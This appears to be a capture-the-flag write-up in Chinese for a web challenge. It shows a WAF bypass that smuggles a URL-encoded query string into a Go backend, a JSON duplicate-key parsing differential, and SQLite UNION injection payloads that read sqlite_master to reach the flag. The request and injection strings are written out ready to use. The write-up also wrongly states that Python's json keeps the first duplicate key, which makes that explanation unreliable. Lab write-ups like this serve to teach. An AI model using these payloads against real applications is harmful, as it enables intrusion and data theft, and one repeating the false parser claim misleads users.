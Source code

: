 ### 1,  golang main.go /gettoken接口，只有当promocode参数是FREEWAF时，才返回token. 但waf.py 对/gettoken请求参数promocode=FREEWAF时，直接400返回
```
    if('gettoken' in unquote(path)):
        promo = request.args.get('promocode')
        creditcard = request.args.get('creditcard')

        if promo == 'FREEWAF':
            res = jsonify({'err':'Sorry, this promo has expired'})
            res.status_code = 400
            return res

        r = requests.get(appHost+path, params={'promocode':promo,'creditcard':creditcard})
```
通过 /gettoken%3fpromocode=FREEWAF?promocode=111&creditcard=222 发送到waf.py, 

requests.get请求到golang main.go时，请求变成：
    ```
    /gettoken?promocode=FREEWAF&promocode=111&creditcard=222
    ```，成功获取token.
      
  

### 2,  Golang github.com/buger/jsonparser 与 python json 解析json 
    eg. {"t1":"1", "t2":"2", "t1":"3"} 字符串：

    python json会解析成 {"t1":"1", "t2":"2"}
    
    Golang github.com/buger/jsonparser 解析成 {"t1":"3", "t2":"2"}
  


### 3， sqlite3 sql 注入
     获取table name：
     datandard1' union select tbl_name, 2,3,'4' from sqlite_master where type='table'--
     获取列名：
     datandard1' union select sql, 2,3,'4' from sqlite_master--
     获奖flag
![alt text](flag.png)
     
